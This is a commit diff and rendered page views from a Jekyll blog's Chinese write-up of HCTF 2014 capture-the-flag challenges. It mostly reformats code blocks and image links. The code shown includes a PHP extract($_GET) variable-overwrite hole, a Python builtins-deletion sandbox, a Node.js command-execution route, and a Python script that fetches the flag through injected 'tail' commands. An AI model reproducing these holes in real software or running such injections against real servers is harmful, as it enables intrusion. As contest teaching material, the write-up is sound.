

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2014-11-10-hctf2014-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 8853 px. Shown: the whole window at 93% size, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
alter post hctf2014-writeup
alter post hctf2014-writeup

```diff
--- a/_posts/2014-11-10-hctf2014-writeup.md
+++ b/_posts/2014-11-10-hctf2014-writeup.md
@@ -87,16 +87,20 @@
 
 于是打开index.php.bak,整理后如下
 
-	<?php
-		$flag='xxx';
-		extract($_GET);
-		if(isset($gift)){
-		$content=trim(file_get_contents($flag));
-		if($gift==$content){
-			echo'hctf{...}';}
-		else{echo'Oh..';}
-		}
-	?>
+{% highlight php %}
+
+<?php
+	$flag='xxx';
+	extract($_GET);
+	if(isset($gift)){
+	$content=trim(file_get_contents($flag));
+	if($gift==$content){
+		echo'hctf{...}';}
+	else{echo'Oh..';}
+	}
+?>
+
+{% endhighlight %}
 
 看到extract($_GET)，很明显的变量覆盖漏洞，于是我们可以控制$flag和$gift，满足$gift==$content即能拿到flag。我们已知index.php.bak的内容，于是让$flag为index.php.bak的内容，$gift为index.php.bak即可。
 
@@ -183,9 +187,13 @@
 
 nc上去一看是python里code模块的一个交互式解释器，但是测试一番后发现删除了某些symbol，并且在交互下没有输出，只有在正常exit()时候才会返回交互输出。
 
-网上搜索了一下发现了与该题类似的一个Paper（[https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst](https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst)）
+网上搜索了一下发现了与该题类似的一个Paper
 
-同时在google上又发现了picoctf上的一道题目与此类似（为何又是这样）：[http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140](http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140)
+（[https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst](https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst)）
+
+同时在google上又发现了picoctf上的一道题目与此类似（为何又是这样）：
+
+[http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140](http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140)
 
 直接根据文章中的POC即可执行命令：
 
@@ -225,32 +233,36 @@
 
 **starbucks.py**
 
-    #!/usr/bin/env python
-    # -*- coding: utf-8 -*-
+{% highlight python %}
 
-    from code import InteractiveConsole
-    vars = globals().copy()
-    vars.update(locals())
-    shell = InteractiveConsole(vars)
-    # shell.interact()
+#!/usr/bin/env python
+# -*- coding: utf-8 -*-
 
-    # rm unsafe
-    def make_safe():
-        UNSAFE = ['open',
-                  'file',
-                  'execfile',
-                 #'compile',
-                  'reload',
-                  '__import__',
-                  'eval',
-                  'input']
-        for func in UNSAFE:
-            del __builtins__.__dict__[func]
+from code import InteractiveConsole
+vars = globals().copy()
+vars.update(locals())
+shell = InteractiveConsole(vars)
+# shell.interact()
+
+# rm unsafe
+def make_safe():
+    UNSAFE = ['open',
+              'file',
+              'execfile',
+             #'compile',
+              'reload',
+              '__import__',
+              'eval',
+              'input']
+    for func in UNSAFE:
+        del __builtins__.__dict__[func]
 
 
-    del vars
-    make_safe()
-    shell.interact()
+del vars
+make_safe()
+shell.interact()
+
+{% endhighlight %}
 
 flag：``hctf{J_do_mo_xyz_!_123_HAHA_lee}``
 
@@ -336,6 +348,8 @@
 
 然后在 ``/app.js`` 中发现了另一个根目录：
 
+{% highlight javascript %}
+
 	...
 	app.use(favicon());
 	app.use(logger('dev'));
@@ -349,34 +363,40 @@
 	/// catch 404 and forwarding to error handler
 	...
 
+{% endhighlight %}
+
 然后看程序对 ``/ac6555bfe23f5fe7e98fdcc0cd5f2451`` 路径的处理函数，对应文件 ``/routes/pangci.js``：
 
-    var express = require('express');
-    var router = express.Router();
-    var fs = require('fs');
-    var path = require('path');
-    var cp = require('child_process');
+{% highlight javascript %}
 
-    router.get('/', function(req, res) {
-      var data = path.normalize('/tmp/flag');
+var express = require('express');
+var router = express.Router();
+var fs = require('fs');
+var path = require('path');
+var cp = require('child_process');
 
-      if (req.param('pangci')) {
-        cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
-          if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
-          var limit = stdout.split('\n').slice(0, 5).join('\n');
-          res.end(limit);
-        });
-      } else {
-        res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
-      }
+router.get('/', function(req, res) {
+  var data = path.normalize('/tmp/flag');
 
+  if (req.param('pangci')) {
+    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
+      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
+      var limit = stdout.split('\n').slice(0, 5).join('\n');
+      res.end(limit);
     });
+  } else {
+    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
+  }
 
-    function secure (str) {
-      return str.replace(/[^\d\-a-zA-Z ]/g, '');
-    }
+});
 
-    module.exports = router;
+function secure (str) {
+  return str.replace(/[^\d\-a-zA-Z ]/g, '');
+}
+
+module.exports = router;
+
+{% endhighlight %}
 
 可以发现这里有个很明显的命令执行：
 
@@ -390,21 +410,21 @@
 
 {% highlight python %}
 
-	#!/usr/bin/env python
-	# coding: utf-8
+#!/usr/bin/env python
+# coding: utf-8
 
-	import requests
+import requests
 
-	outfile = open('flag.txt', 'w')
-	r_url = 'http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci='
-	n = 143
-	r = n / 5 + 1
-	for i in range(r):
-	    response = requests.get(r_url + 'tail -n %s' % str(n))
-	    #print r_url + 'tail -n %s' % str(n)
-	    m = response.content
-	    outfile.write(m + '\n')
-	    n -= 5
+outfile = open('flag.txt', 'w')
+r_url = 'http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci='
+n = 143
+r = n / 5 + 1
+for i in range(r):
+    response = requests.get(r_url + 'tail -n %s' % str(n))
+    #print r_url + 'tail -n %s' % str(n)
+    m = response.content
+    outfile.write(m + '\n')
+    n -= 5
 
 {% endhighlight %}
 
@@ -414,27 +434,27 @@
 
 下载⽂文件下来 NormalFile.jpg 明显后⾯面有数据,解开之后发现__MACOSX下⾯面的同名图⽚片诡异的⼤：
 
-![img](../public/ctf/hctf2014/NormalFile_img_1.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_1.jpeg)
 
 然后简单分析了下,发现有个apk：
 
-![img](../public/ctf/hctf2014/NormalFile_img_2.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_2.jpeg)
 
 我就直接把classes.dex提出来看了,在⾥里⾯面发现了关键的验证算法，如下：
 
-![img](../public/ctf/hctf2014/NormalFile_img_3.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_3.jpeg)
 
 前⾯面还有⼀一部分,把两段合起来,不过我们不⽤用管,反正这个16位的就是最后的flag,分析了⼀一会,然后发现这⾥里⾯面的关系得不出唯⼀一得flag,没办法就去找其他线索,先把完整apk扣出来：
 
-![img](../public/ctf/hctf2014/NormalFile_img_4.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_4.jpeg)
 
 然后就是翻啊翻,许久之后,果然发现了⼀一点东⻄西：
 
-![img](../public/ctf/hctf2014/NormalFile_img_5.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_5.jpeg)
 
 这⾥里的“++”可以合刚刚源码⾥里的对应起来：
 
-![img](../public/ctf/hctf2014/NormalFile_img_6.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_6.jpeg)
 
 有了这些信息就够了,整理关系,如下：
 
@@ -464,11 +484,11 @@
 
 	输⼊入flag,⻓长度22位,每字节依次和程序⾥里⾯面保存的话按字节相乘,再相加,如图6,是部分,计算的时候会只保留字⺟母,不⾜足的补0:
 
-![img](../public/ctf/hctf2014/NormalFile_img_6.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/NormalFile_img_6.jpeg)
 
 一共有22句话，计算22次，会生成22个数，依次和程序里Verify数组保存的数比较：
 
-![img](../public/ctf/hctf2014/wow_img_2.jpeg)
+![img]({{ site.url }}/public/ctf/hctf2014/wow_img_2.jpeg)
 
 那么...flag就是解22阶的线性⽅方程组了。我偷懒⽤用了Matlab。
 
```
Also changed, not shown: _posts/2014-09-30-my-test-post.md (deleted, +0 -36 lines).
